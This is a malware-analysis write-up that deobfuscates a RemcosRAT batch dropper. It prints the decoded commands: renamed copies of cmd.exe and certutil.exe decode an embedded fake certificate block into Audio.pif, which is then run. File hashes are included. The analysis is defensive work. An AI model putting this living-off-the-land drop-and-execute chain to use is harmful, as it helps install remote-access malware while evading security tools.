










<h1 style="text-align:center"> Batch Scripts </h1>

"A **"batch"** file is a script file in DOS, OS/2 and Microsoft Windows. It consists of a series of commands to be executed by the command-line interpreter, stored in a plain text file. A batch file may contain any command the interpreter accepts interactively and use constructs that enable conditional branching and looping within the batch file."[1]

A **"batch"** file is a text file containing a series of commands to be executed by the command-line interpreter. They have file extensions like **.bat**, **.cmd**, or **.btm**.

Batch scripts are often used in attacks to download/drop second-stage payloads (additional malicious files). Due to their flexibility in directly executing files, they can bypass security products by leveraging various system files (known as LOLBIN or Living off the Land Binaries).



You can create directory by creating simple Batch script like the example above. 

As with any scripting language, there's no limit to the level of obfuscation that can be achieved with batch scripts. In this article, we'll examine a newly(?) emerged obfuscation technique.


<h1 style="text-align:center"> RemcosRAT Obfuscated Batch File </h1>

File Name : **"PO904374211.cmd"**

File MD5 Hash : **"00ed3b00b39d4beba6d0c5e79ae9a95b"**



Since it's a script file, we can examine its contents using any text editor. However, when we open it, we notice characters that resemble Chinese(?). Looking at the bottom right, we see that the file was saved in **"UTF-16 LE"** format. Batch scripts are typically written in UTF-8 or ASCII. Let's take a look at these characters using a hex editor.



When the file's character encoding algorithm is ANSI, we can see meaningful characters. We can convert the file to UTF-8 format using Visual Studio Code's encoding change feature.



In the first line, we can see that a value is assigned to a variable using the **"set"** command. But what exactly are the following lines doing?

In the Batch script language, values written between **"%"** characters are recognized as variables. We can use the specified character of this string by providing an index, as shown in the following example:



When we look at the malicious Batch script, it's clear that an obfuscation technique is being used by employing this method. Now, let's clean up the script we have, replacing the Non-ASCII characters to make it more readable. If you're dealing with a Batch script or any script like this, I recommend using bulk replacement based on character lengths.



You might be thinking, "Okay, we cleaned it up, but how are we going to organize this mess?" It looks like we'll need to roll up our sleeves and do some coding. Of course, we could run the Batch script directly and use automated tools to figure out what it does, but why not have a little fun? :)

I'm not claiming to be an excellent programmer, but I can say I know a few things. Our algorithm will be as follows:

1- Save the initially set variable (this step could have been automated, but I didn’t want to waste that much time).

2- Read the line and capture the values between the "%" characters.

3- Get the name of the variable found between the "%" characters and which character it’s trying to access.

4- Replace the "%" characters and the characters between them with the desired character from the variable.

5- If all values between the "%" characters have been written, create a new line.

6- If the keyword "set" appears in the newly created line, update the relevant variable in the code.

7- Write the new line and indicate the updated lines.

You can access the related code at the following GitHub address:

https://github.com/fatihbeyexe/Remcos-Rat-Batch-Deobfuscator



When we look at the following lines of the Batch script, we can see that after the variable assignments and usage, there's a "X509 CRL" section. **"X509 CRL"** stands for "X.509 Certificate Revocation List". It's a digital certificate algorithm (?). As is well known, digital certificates are stored in an encrypted/encoded form. However, the value in the relevant file is not a digital certificate. Let's see what comes up when we decrypt/decode this value.

We can save the "X509 CRL" part and what copy it into a different file, and then use the script we wrote to deobfuscate the obfuscated commands mentioned above.

In the first line, we assign the value to "DynamicVariable1" in our script, and delete the first line in the malicious Batch script. Then we run our script and obtain the deobfuscated commands.



So, what do these lines actually do? Let's take a look at them line by line;

```C:\\Windows\\System32\\extrac32 /C /Y C:\\Windows\\System32\\cmd.exe  "C:\\Users\\Public\\alpha.exe"```

Extrac32 : "Extracts files from a cabinet or source."[2]. The tool named "Extrac32" found on Windows systems is used to extract files from cabinet files, such as ".cab" files.

**"/c	Copy source file to destination (to copy from DMF disks)."**

**"/y	Don't prompt before overwriting an existing file."**

The **"/c"** and **"/y"** parameters specify that only a copy operation should be performed, not an extraction, and if a file already exists, it should be overwritten without prompting. Our source file is **"cmd.exe"** and our target is **"Users\Public\alpha.exe"**. This means that the **"cmd.exe"** file is being copied to the target location. Renaming **"cmd.exe"** is often used to bypass security products.

```C:\\Users\\Public\\alpha /c extrac32 /C /Y C:\\Windows\\System32\\certutil.exe C:\\Users\\Public\\kn.exe```

Similarly, using "alpha" which is "cmd", the **"certutil.exe"** file is being copied to the target location **"Users\Public\kn.exe"**.

```C:\\Users\\Public\\alpha /c  C:\\Users\\Public\\kn  -decodehex -F "%~f0"  "C:\\Users\\Public\\Audio.mp4" 9```

Certutil: It is part of certificate services and can be used to decode certificate files. Attackers often use it for Base64 and hex decoding. By providing the '-decodehex' parameter, it indicates that the file is encoded in hexadecimal, and the trailing number '9' specifies that it is of type **"CRYPT_STRING_BASE64X509CRLHEADER"**. The '-F' parameter specifies the source file as **"%~f0"**, which refers to the file executing this command. Given the type, after variable assignments, we can see that it is of a certificate type, and the encoded value here is decoded and written to the **"C:\Users\Public"** directory with the name **"Audio.mp4"**.

```C:\\Users\\Public\\alpha /c  C:\\Users\\Public\\kn  -decodehex -F "C:\\Users\\Public\\Audio.mp4"  "C:\\Users\\Public\\Libraries\\Audio.pif" 12```

Similarly, there is another decode operation. The provided value '12' indicates that the data is of type **"CRYPT_STRING_HEXRAW"**. We can say that a two-layer decode operation is performed. The second decoded data is saved to the **"C:\Users\Public\Libraries"** directory with the name **"Audio.pif"**.

```if exist C:\Users\Public\Libraries\Audio.pif start C:\Users\Public\Libraries\Audio.pif```

Next, the file saved as **"Audio.pif"** is executed, and in the following lines, the files named 'cmd.exe' and 'certutil.exe,' which were saved under different names, are deleted. After that, the Batch script is terminated with the **"exit"** command. Let's perform these steps ourselves and finally examine the contents of the executed **"Audio.pif"** file.

First, let's create the relevant file with using same commands.



The file created after this first decode operations is :



Here, we can already tell that it's an executable file when we see the '4D 5A' or 'MZ' bytes. The file obtained after decoding the file from the first decode operation is:


As the final step, the MD5 hash value of the dropped malicious software is : "88B7D2A5C913FA562E3313077DA7F849"

---

For your criticism, corrections, suggestions, and questions, please reach out to me through my contact addresses. Your feedback is valuable to me :)

---

References

[1] https://en.wikipedia.org/wiki/Batch_file

[2] https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/extract

[3] https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptstringtobinarya